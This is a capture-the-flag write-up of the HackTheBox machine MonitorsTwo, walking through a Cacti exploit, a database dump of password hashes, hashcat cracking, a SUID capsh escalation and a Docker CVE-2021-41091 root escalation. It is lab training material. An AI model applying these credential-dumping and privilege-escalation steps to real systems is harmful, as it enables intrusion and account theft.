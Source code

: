 ```yaml
---
layout: post
title:  "Writeup of MonitorsTwo (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox monitorstwo cacti hashcat
---
```


# Cacti
There is **Cacti** running on **:80**

```
var cactiVersion='1.2.22';
```

[Known vulnerability for 1.2.2](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

# www-data enum

We get a reverse shell as **www-data** in some docker container.

`entrypoint.sh`

```
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

`config.php`

```
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```

`If we try:`

```
mysql -h db -P 3306 -u root -p cacti
Enter password: asdasd
ERROR 1045 (28000): Access denied for user 'root'@'172.19.0.3' (using password: YES)
```

so **db -> 172.19.0.3**

# Dumping the db

`mysqldump -h db -P 3306 -u root -p cacti > /tmp/dump.sql`

*password: root*

**Dumping data for table user_auth:**

```
admin:Jamie Thompson:admin@monitorstwo.htb:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C

guest:Guest Account::43e9a4ab75570f5b

marcus:Marcus Brune:marcus@monitorstwo.htb:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

**Hashes cracked using:**

`.\hashcat.exe .\hash.txt -m 3200 --wordlist rockyou.txt -w 3`

```
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

**There is an interestring SUID binary:**
```
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
```

So we can get **root** inside this container:

`capsh --gid=0 --uid=0 --`

**Container info:**

```
( Enumerating Container )
[+] Container ID ............ 50bca5e748b0
[+] Container Full ID ....... 50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
[+] Container Name .......... Could not get container name through reverse DNS
[+] Container IP ............ 172.19.0.3 
[+] DNS Server(s) ........... 127.0.0.11 
[+] Host IP ................. 172.19.0.1
[+] Operating System ........ GNU/Linux
[+] Kernel .................. 5.4.0-147-generic
[+] Arch .................... x86_64
[+] CPU ..................... AMD EPYC 7302P 16-Core Processor
[+] Useful tools installed .. Yes
```

# SSH - marcus

`ssh marcus@10.10.11.211` with **marcus:funkymonkey** works!

`user.txt: <redacted>`

# Enumeration
```
[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

`/var/mail/marcus`

```
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

**CVE-2021-41091** seems to be the right choice, [there is a PoC](https://github.com/UncleJ4ck/CVE-2021-41091).

Running `chmod u+s /bin/bash` as **root** on the **50bca5e748b0** container, and then runnig the PoC - we get root.

`root.txt: <redacted>`